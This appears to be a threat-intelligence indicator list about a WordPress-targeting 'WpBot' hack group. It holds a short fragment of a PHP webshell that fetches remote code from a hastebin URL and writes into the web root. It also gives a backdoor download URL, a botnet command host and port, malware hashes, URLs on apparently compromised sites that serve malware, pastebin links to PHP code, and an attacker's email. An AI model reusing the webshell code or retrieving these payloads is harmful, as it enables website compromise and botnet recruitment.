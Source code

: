 # WpBot hack group

## php webshell name 

Luqman1337 Mini shell

$ email = "luqmanid1337@gmail.com";
$ from = "From: V1 Shell<luqmanid1337@gmail.com";
$check3 = $_SERVER['DOCUMENT_ROOT'] . "/999MD999.html" ;
$text3 = http_get('hxps://hastebin.com/raw/puralijawo');

## DOWNLOAD URL

http://formfactset.org:8082/static/backdoorGood.txt

Botnet will connect formfactset.org:8081


## LIST

cce014c7dcac3919499de460ba5b17a6   one.txt has 55000 website list

af462134cd6828aca1ac1eb0fed068ac




## BOTNET MALWARE

47d704b79364e2ab333e614c166d0b7d

db08d343049c733a97bccaf394db56a2

## MODULE

755bce76cfcaa8198f13e8c258341bdc

04b0c9900e5c849bbff4f60d34c892cf

5f4290e27c373dfa3b92eb79650d078a

c326a0d37a33c1eb88eccf32431e0238


## MALWARE DOWNLOAD FROM

http://mongol-kino.mn/wp-content/uploads/2019/07/IcYbJa

https://indojayaprimergy.com/wp-content/plugins/apikey/3JQoFf

https://free-food.000webhostapp.com/wp-content/uploads/2019/06/vULqz9

https://tgm.tgmapartments.com/hack/f190Iw

http://boutique.liberal.ca/wp-content/uploads/2019/06/8puk0P

https://www.georgevaults.com/wp-content/uploads/2019/05/WOtgUS

http://www.skoda-bohemiamotors.pl/wp-content/uploads/2019/05/bunIjd

## PHP

pastebin.com/PuT9UvUS
pastebin.com/sTmYZ8wK
pastebin.com/6yK2y2Qm
pastebin.com/3uHxyFAZ
pastebin.com/fgwNrs5e
pastebin.com/zRj9ETT9
pastebin.com/fbHtDWxe
pastebin.com/cugKiQ7h
pastebin.com/JFtCDEJE
